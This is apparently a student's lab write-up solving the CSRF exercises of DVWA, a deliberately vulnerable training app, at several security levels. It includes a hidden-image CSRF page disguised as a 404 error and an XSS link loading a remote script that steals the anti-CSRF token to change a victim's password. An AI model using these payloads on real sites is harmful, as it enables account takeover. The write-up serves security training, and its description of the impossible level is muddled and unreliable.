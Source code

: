 # DVWA - CSRF Solution

## Low level
### Solution
> We can write a html page to let the user to browse and the web will show 404, but we can change the password by the img url.

```htmlembedded=
<img src="http://192.168.1.66/DVWA-master/vulnerabilities/csrf/?password_new=1234&password_conf=1234&Change=Change#" border="0" style="display:none;"/>

<h1>404 ERROR !<h1>

<h2>Files Not Found.<h2>
```
### Error on Chrome
> The Chrome can't access the cookie through different domain. Because the feature of Chrome(https://www.chromestatus.com/feature/5629709824032768), we can't access the cookie of the different domain. 
> 
> ![](https://i.imgur.com/m2yyvC2.png)

> So, we need to establish the web server in the same domain or use the other bowser.
> 
> ![](https://i.imgur.com/MvcDAky.png)


## Medium level
> In this case it will check the HOST_REFERENCE and HOST_HOST, so we can not use the file to be clicked. We need to let the attacked ise the web server to access the html file.
> So I establish the web server on another VM. And we need to rename the HTML file be the host IP. Then we can change the attacked's password. 
> 
> ![](https://i.imgur.com/DfNqBkP.png)

## High level of CSRF
> In this case, the web site add the Auti-CRSF token, so we need to get the user-token to change his/her password.
> Use the XSS weakness to get the user token and send the request to change the password.
> 
> Use the "http://192.168.1.66/DVWA-master/vulnerabilities/xss_d/?default=English#<script src="http://192.168.1.68/xss.js"></script>" to le attacked to click.
> 
> XSS.js (put it into the web server)
```javascript=1
// alert(document.cookie);

var theUrl = 'http://192.168.1.68/DVWA-master/vulnerabilities/csrf/';

if(window.XMLHttpRequest) {
    xmlhttp = new XMLHttpRequest();
}else{
    xmlhttp = new ActiveXObject("Microsoft.XMLHTTP");
}

var count = 0;
xmlhttp.withCredentials = true;

xmlhttp.onreadystatechange = function(){
    if(xmlhttp.readyState == 4 && xmlhttp.status == 200)
    {
        var text = xmlhttp.responseText;
        var regex = /user_token\' value\=\'(.*?)\' \/\>/;
        var match = text.match(regex);
        // console.log(match);
        // alert(match[1]);
        var token = match[1];
        var new_url = 'http://192.168.1.66/DVWA-master/vulnerabilities/csrf/?password_new=test&password_conf=test&Change=Change&user_token=' + token + '#';
        if(count == 0){
            count++;
            xmlhttp.open("GET", new_url, false);
            xmlhttp.send();
        }
    }
};

xmlhttp.open("GET", theUrl, false);
xmlhttp.send();
```


## Impossible level of CRSF
> In this case, web site add the PDO to protect the sql injection. And it request the ttacked's password we can't to attack the password.
> 
